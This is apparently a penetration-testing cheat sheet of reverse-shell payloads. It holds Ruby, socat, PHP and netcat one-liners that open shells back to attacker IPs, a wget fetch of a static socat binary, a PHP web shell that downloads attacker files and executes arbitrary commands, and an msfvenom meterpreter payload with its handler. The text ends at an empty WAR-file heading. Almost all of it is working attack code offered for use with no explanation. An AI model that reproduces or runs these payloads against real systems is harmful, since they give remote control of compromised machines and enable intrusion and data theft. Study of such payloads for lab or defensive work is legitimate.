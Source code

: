 - **RUBY:**  

        ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'  
- **SOCAT:**  

       Attacker:  socat file:`tty`,raw,echo=0 tcp-listen:4444  \\  socat -d -d TCP4-LISTEN:443 STDOUT
       Victim:  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  \\  socat TCP4:10.11.0.22:443 EXEC:/bin/bash
          Or:  wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.15.25:4444

- **PHP:**
    - Commandline:  `php -r '$sock=fsockopen("192.168.119.186",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
    - Simple Content Inject:  

          $sock=fsockopen("10.10.14.11", 4445);exec("/bin/sh -i <&3 >&3 2>&3");  
          exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.119.186/4444 0>&1'");  
          <?php $sock = fsockopen("192.168.119.186",4444); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>  
          <?php system(“wget http://192.168.119.186/phpshellFull.php -O /tmp/; chmod +x /tmp/phpshellFull.php; php /tmp/phpshellFull.php”); ?>  
          <?php passthru("nc -e /bin/sh 1.2.3.4 8080"); ?>  (inject into file upload)  
    - Advanced Content Inject:  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php      
            - For Windows:  https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php     
    - Reliable, simple PHP web shell to upload/execute code:  

            <?php
              if (isset($_REQUEST['fupload'])) {
                file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.19:8000/" . $_REQUEST['fupload']));
              };
              if (isset($_REQUEST['fexec'])) {
                echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
              };
            ?>
            
           - Then:
                http://10.10.10.9/catch.php?fupload=nc64.exe  
                http://10.10.10.9/catch.php?fexec=nc64.exe 10.10.16.10 1234 -e cmd.exe  
                
    - LFI Example:  
    
            <?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.186 4444 >/tmp/f'); ?>
            
            Try browser access with /file and /file.php  
- **Windows Binary (.exe):**  

        msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=[IP attackbox] LPORT=4444 -f exe -o /tmp/exploit.exe
        use exploit/multi/handler  
- **WAR file (for uploading to Tomcat web server):**  

